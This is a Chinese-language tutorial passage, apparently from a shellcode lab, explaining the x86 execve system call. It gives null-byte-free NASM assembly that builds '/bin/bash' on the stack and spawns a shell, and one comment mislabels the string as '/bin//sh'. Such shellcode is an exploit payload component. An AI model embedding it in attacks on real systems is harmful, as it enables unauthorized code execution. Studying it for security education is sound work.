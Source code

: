 #### `execve()`

系统调用号：`eax = 0x0000000b`

参数：

* `filename`：要执行的程序的路径。
* `argv`：指向字符串数组的指针，包含要传递给程序的参数，以 `NULL` 结尾。
* `envp`：指向字符串数组的指针，包含传递给程序的环境变量，以 `NULL` 结尾。

`int 0x80`中断：`eax` 寄存器用于存放系统调用的编号，而 `ebx`、`ecx`、`edx`、`esi`、`edi` 和 `ebp` 寄存器用于传递参数

```wasm
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

#### 执行命令`/bin/bash`

32位程序下push可填充32bit=4bytes大小的数据，由于需要执行的命令是`/bin/bash` 9bytes，所以要分成三次入栈且从后往前填充需要的字符串（栈FILO结构），第一次填充入栈“h\0”，第二次填充入栈“/bas”，第三次入栈“/bin”

* 使用 `xor eax, eax` 将 `eax` 寄存器置零，然后将 `eax`（现在为 `0x00`）推入栈以用作字符串的终止符。
* 字符串 "h" 被存储在 `ebx` 寄存器中，然后通过**左移和右移 24 位来清除高位字节**，以避免在代码中出现 `0x00`。
* 然后，将字符串 `/bas` 和 `/bin` 分别推入栈。
* 最后，通过设置 `ebx` 为字符串地址、`ecx` 为参数数组地址，并将 `edx` 置零（表示没有环境变量），调用 `execve` 系统调用来执行 `/bin/bash`

```wasm
section .text
  global _start
    _start:
      ; Store the argument string on stack      
      xor  eax, eax 
      push eax           ; Use 0 to terminate the string
      mov ebx, "h###"
      shl ebx, 24       ; 先左移24bit
      shr ebx, 24       ; 再右移24bit
      push ebx           ; "h\0"
      
      push "/bas"       ;"/bash\0"
      push "/bin"       ;"bin/bash\0"
      mov  ebx, esp     ; Get the string address
​
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 设置edx寄存器为0，表示没有环境变量。
      xor  edx, edx     ; No env variables  
​
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```
